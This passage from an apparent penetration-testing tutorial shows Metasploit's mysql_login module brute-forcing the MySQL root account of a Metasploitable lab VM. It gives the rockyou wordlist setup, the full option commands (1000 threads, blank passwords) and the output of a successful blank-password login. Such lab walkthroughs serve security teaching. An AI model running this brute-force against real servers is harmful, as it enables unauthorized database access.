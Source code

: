    THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

Note that in order to successfully use this, we'll need some wordlists for username and password combinations.

We can illustrate the process using some of the wordlists included with Kali, in /usr/share/wordlists.

We'll use the rockyou list:

$ cd /usr/share/wordlists
$ gunzip rockyou.txt.gz
$ ls -lh rockyou.txt

Now that we have rockyou.txt as our wordlist, let's use it as the password file with metasploit.

Here, we set various options for this particular exploit.

We set threads to 1000, to make it brute force.

We set RHOSTS to the IP address of the metasploitable virtualbox (10.0.0.27).

Set the password file to be the rockyou password list.

Set the username to "root" - if you're going to brute-force a password, it should probably be the one that can do everything.

And make sure and try blank passwords - because you never know.


msf auxiliary(mysql_login) > set THREADS 1000
THREADS => 1000
msf auxiliary(mysql_login) > set RHOSTS 10.0.0.27
RHOST => 10.0.0.27
msf auxiliary(mysql_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf auxiliary(mysql_login) > set USERNAME root
USERNAME => root
msf auxiliary(mysql_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(mysql_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(mysql_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true

Now run the exploit:

msf auxiliary(mysql_login) > run


msf auxiliary(mysql_login) > run

[*] 10.0.0.27:3306 MYSQL - Found remote MySQL version 5.0.51a
[+] 10.0.0.27:3306 MYSQL - Success: 'root:'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(mysql_login) >
